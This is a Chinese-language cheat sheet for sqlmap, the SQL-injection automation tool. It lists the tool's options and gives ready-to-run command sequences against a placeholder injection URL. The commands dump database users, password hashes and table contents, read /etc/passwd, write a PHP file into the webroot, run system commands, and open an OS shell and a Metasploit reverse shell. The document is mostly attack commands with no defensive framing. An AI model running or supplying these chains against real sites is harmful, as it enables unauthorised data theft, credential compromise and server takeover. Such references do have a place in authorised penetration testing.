

# sqlmap-sql注入自动化工具

## [官网](https://github.com/sqlmapproject/sqlmap)



## 基础参数

```
-u #注入点
-g 谷歌搜索
-f #指纹判别数据库类型
-b #获取数据库版本信息
-p #指定可测试的参数(?page=1&id=2 -p “page,id”)
-D “” #指定数据库名
-T “” #指定表名
-C “” #指定字段
-s “” #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s “xx.log”　　恢复:-s “xx.log” –resume)
–columns #列出字段
–current-user #获取当前用户名称
–current-db #获取当前数据库名称
–users #列数据库所有用户
–passwords #数据库用户所有密码
–privileges #查看用户权限(–privileges -U root)
-U #指定数据库用户
–dbs #列出所有数据库
–tables -D “” #列出指定数据库中的表
–columns -T “user” -D “mysql” #列出mysql数据库中的user表的所有字段
–dump-all #列出所有数据库所有表
–exclude-sysdbs #只列出用户自己新建的数据库和表
–dump -T “” -D “” -C “” #列出指定数据库的表的字段的数据(–dump -T users -D master -C surname)
–dump -T “” -D “” –start 2 –top 4 # 列出指定数据库的表的2-4字段的数据
–dbms #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB)
–os #指定系统(Linux,Windows)
–sql -shell 写shell
–delay 延迟的时间
–safe-freq 次数
-v #详细的等级(0-6)
0：只显示Python的回溯，错误和关键消息。
1：显示信息和警告消息。
2：显示调试消息。
3：有效载荷注入。
4：显示HTTP请求。
5：显示HTTP响应头。
6：显示HTTP响应页面的内容
–privileges #查看权限
–is-dba #是否是数据库管理员
–roles #枚举数据库用户角色
–udf-inject #导入用户自定义函数（获取系统权限）
–union-check #是否支持union 注入
–union-cols #union 查询表记录
–union-test #union 语句测试
–union-use #采用union 注入
–union-tech orderby #union配合order by
–method “POST” –data “” #POST方式提交数据(–method “POST” –data “page=1&id=2″)
–cookie “用;号分开” #cookie注入(–cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”)
–referer “” #使用referer欺骗(–referer “http://www.baidu.com”)
–user-agent “” #自定义user-agent
–proxy “http://127.0.0.1:8118″ #代理注入
–string “” #指定关键词
–threads 　　 #采用多线程(–threads 3)
–sql-shell #执行指定sql命令
–sql-query #执行指定的sql语句(–sql-query “SELECT password FROM mysql.user WHERE user = ‘root’ LIMIT 0, 1″ )
–file-read #读取指定文件
–file-write #写入本地文件(–file-write /test/test.txt –file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)
–file-dest #要写入的文件绝对路径
–os-cmd=id #执行系统命令
–os-shell #系统交互shell
–os-pwn #反弹shell(–os-pwn –msf-path=/opt/framework/msf3/)
–msf-path= #matesploit绝对路径(–msf-path=/opt/framework/msf3/)
–os-smbrelay #
–os-bof #
–reg-read #读取win系统注册表
–priv-esc #
–time-sec= #延迟设置 默认–time-sec=5 为5秒
-p “user-agent” –user-agent “sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)” #指定user-agent注入
```

## 常用命令

```./sqlmap.py
./sqlmap.py -u “注入地址” -v 1 --current-db // 当前数据库
./sqlmap.py -u “注入地址” -v 1 --users // 列数据库用户
./sqlmap.py -u “注入地址” -v 1 --current-user // 当前用户
./sqlmap.py -u “注入地址” -v 1 --tables -D “数据库” // 列举数据库的表名
./sqlmap.py -u “注入地址” -v 1 --columns -T “表名” -D “数据库” // 获取表的列名
./sqlmap.py -u “注入地址” -v 1 --dump -C “字段,字段” -T “表名” -D “数据库” // 获取表中的数据，包含列
```

## 完整的一套操作

```
1.读取数据库版本，当前用户，当前数据库
sqlmap -u 注入地址 -f -b –current-user –current-db -v 1
2.判断当前数据库用户权限
sqlmap -u 注入地址 –privileges -U 用户名 -v 1
sqlmap -u 注入地址 –is-dba -U 用户名 -v 1
3.读取所有数据库用户或指定数据库用户的密码
sqlmap -u 注入地址 –users –passwords -v 2
sqlmap -u 注入地址 –passwords -U root -v 2
4.获取所有数据库
sqlmap -u 注入地址 –dbs -v 2
5.获取指定数据库中的所有表
sqlmap -u 注入地址 –tables -D mysql -v 2
6.获取指定数据库名中指定表的字段
sqlmap -u 注入地址 –columns -D mysql -T users -v 2
7.获取指定数据库名中指定表中指定字段的数据
sqlmap -u 注入地址 –dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2
8.file-read读取web文件
sqlmap -u 注入地址 –file-read “/etc/passwd” -v 2
9.file-write写入文件到web
sqlmap -u 注入地址 –file-write /localhost/mm.php –file-dest
```

## 获取信息类命令

```sqlmap
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --dbs#列数据库
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” –passwords #数据库用户密码
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” –passwords-U root -v 0 #列出指定用户数据库密码
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --dump-all -v 0 #列出所有数据库所有表
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” –privileges #查看权限
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” –privileges -U root #查看指定用户权限
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --is-dba -v 1 #是否是数据库管理员
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --roles #枚举数据库用户角色
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” –udf-inject #导入用户自定义函数（获取系统权限！）
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” –dump-all --exclude-sysdbs -v 0 #列出当前库所有表
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --union-check #是否支持union 注入
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–union-cols #union 查询表记录
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --union-test #union 语句测试
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --union-use --banner #采用union 注入
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–union-test --union-tech orderby #union 配合 order by
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–method “POST” – data “id=1&cat=2” #post注入
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–cookie “COOKIE_VALUE” #cookie注入
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”-b #获取banner信息
sqlmap -u “注入地址”-level=3 --smart-v 1 -f #指纹判别数据库类型
sqlmap -u “注入地址”-level=3 --smart–proxy"http://127.0.0.1:8118" #代理注入
sqlmap -u “注入地址”–string"STRING_ON_TRUE_PAGE" #指定关键词
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–sql-shell #执行指定sql命令
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–os-cmd=whoami #执行系统命令
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–os-shell #系统交互shell
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–os-pwn #反弹shell
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql”–reg-read #读取win系统注册表
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --dbs-o “sqlmap.log” #保存进度
sqlmap -u “注入地址”–level=3 --smart --dbms “Mysql” --dbs -o “sqlmap.log” --resume #恢复已保存进度
```
